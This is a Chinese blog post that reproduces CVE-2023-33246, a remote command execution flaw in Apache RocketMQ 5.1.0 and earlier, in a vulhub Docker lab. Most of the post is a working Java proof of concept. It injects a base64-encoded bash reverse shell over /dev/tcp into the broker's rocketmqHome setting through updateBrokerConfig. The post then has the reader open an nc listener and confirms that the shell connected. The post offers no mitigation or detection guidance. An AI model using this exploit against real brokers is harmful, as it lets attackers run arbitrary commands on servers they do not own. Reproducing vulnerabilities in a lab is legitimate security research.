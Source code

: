 # 原创
：  Apache RocketMQ 远程命令执行漏洞（CVE-2023-33246）vulhub漏洞复现

# Apache RocketMQ 远程命令执行漏洞（CVE-2023-33246）vulhub漏洞复现

**Apache RocketMQ 远程命令执行漏洞（CVE-2023-33246）**

Apache RocketMQ是一个分布式消息平台。

在其5.1.0版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

**漏洞复现**

```
cd vulhub/rocketmq/CVE-2023-33246
docker-compose up -d

```

使用IDEA新建一个`Maven`项目，导入依赖

POC如下

```
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class poc {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i &gt;&amp; /dev/tcp/" + ip + "/" + port + " 0&gt;&amp;1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.126.128";
        String targetPort = "10911";

        String shellHost = "192.168.126.128";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        // 创建 DefaultMQAdminExt 对象并启动
        DefaultMQAdminExt admin = new DefaultMQAdminExt();

//        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        // 更新配置⽂件
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        // 关闭 DefaultMQAdminExt 对象
        admin.shutdown();
    }
}

```

在192.168.126.128开启nc启动监听，运行该poc

成功反弹

创建hacker文件成功
